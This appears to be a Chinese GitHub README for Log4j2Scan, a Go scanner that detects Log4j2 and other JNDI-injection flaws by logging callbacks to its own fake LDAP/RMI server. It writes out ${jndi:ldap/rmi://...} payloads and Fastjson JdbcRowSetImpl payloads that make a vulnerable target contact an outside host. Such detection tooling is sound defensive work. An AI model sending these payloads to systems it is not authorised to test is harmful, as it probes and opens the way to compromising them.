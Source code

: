 # Log4j2Scan

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/golang-1.17-blue)

## 介绍
 
这是什么？

该项目一款无须借助`dnslog`且完全无害的log4j2反连检测工具，解析`RMI`和`LDAP`协议实现，可用于甲方内网自查

特点：
- 由`Golang`编写，直接运行可执行文件进行检测
- 动态渲染数据到`web`页面，方便观察结果

![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/001.png)

## 使用

使用`${jndi:ldap://ip:端口/}`这样的`Payload`

如果目标存在漏洞，该项目就会收到`ldap/rmi`请求，从而快速定位哪些目标存在漏洞

Demo
![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/002.png)

根据自己操作系统下载对应的可执行文件：[下载地址](https://github.com/KpLi0rn/Log4j2Scan/releases/tag/v0.0.1)

命令：`./Log4j2Scan -p port(默认8001) -wp webport(默认8888)`

```text
    __                __ __  _ _____
   / /   ____  ____ _/ // / (_) ___/_________ _____
  / /   / __ \/ __ `/ // /_/ /\__ \/ ___/ __ `/ __ \
 / /___/ /_/ / /_/ /__  __/ /___/ / /__/ /_/ / / / /
/_____/\____/\__, /  /_/_/ //____/\___/\__,_/_/ /_/
 /____/    /___/
    coded by 天下大木头 & 4ra1n
[+] [16:36:26] use port: 8000
[+] [16:36:26] use http port: 8888
[+] [16:36:26] start fake reverse server
[+] [16:36:26] start result http server
|------------------------------------|
|--Payload: ldap/rmi://your-ip:port--|
|------------------------------------|
```

只需要将`Payload`设置为：`ldap://your-ip:port`或`rmi://your-ip:port/xxx`

然后访问：`localhost:8888`即可动态查看最新结果

注意：`rmi`方式payload要为 `${jndi:rmi://127.0.0.1:8001/xxxx}` 类似这种形式

## 拓展

不止用于`Log4j2`框架，也可用于检测存在`JNDI`注入的其他框架

例如`Fastjson`的检测：

```text
{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "rmi://your-ip:port",
	"autoCommit": true
}

{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "ldap://your-ip:port",
	"autoCommit": true
}
```
